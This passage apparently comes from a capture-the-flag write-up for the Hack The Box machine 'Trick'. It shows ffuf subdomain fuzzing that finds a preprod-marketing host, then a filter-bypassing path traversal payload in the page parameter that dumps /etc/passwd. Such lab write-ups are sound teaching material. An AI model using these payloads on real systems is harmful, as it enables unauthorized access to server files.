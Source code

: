 ```sh
ffuf -u http://trick.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" -fs 5480
________________________________________________
 :: Method           : GET
 :: URL              : http://trick.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: preprod-FUZZ.trick.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5480
________________________________________________

marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 434ms]
```

* We got a hit on `preprod-marketing.trick.htb`

![](marketing.png)

* After some enumeration with ffuf and nikto I the get parameter `?page=` looked like it is loading files

```sh
http://www.preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:112:121::/var/lib/saned:/usr/sbin/nologin colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false sshd:x:118:65534::/run/sshd:/usr/sbin/nologin postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin bind:x:120:128::/var/cache/bind:/usr/sbin/nologin michael:x:1001:1001::/home/michael:/bin/bash
```
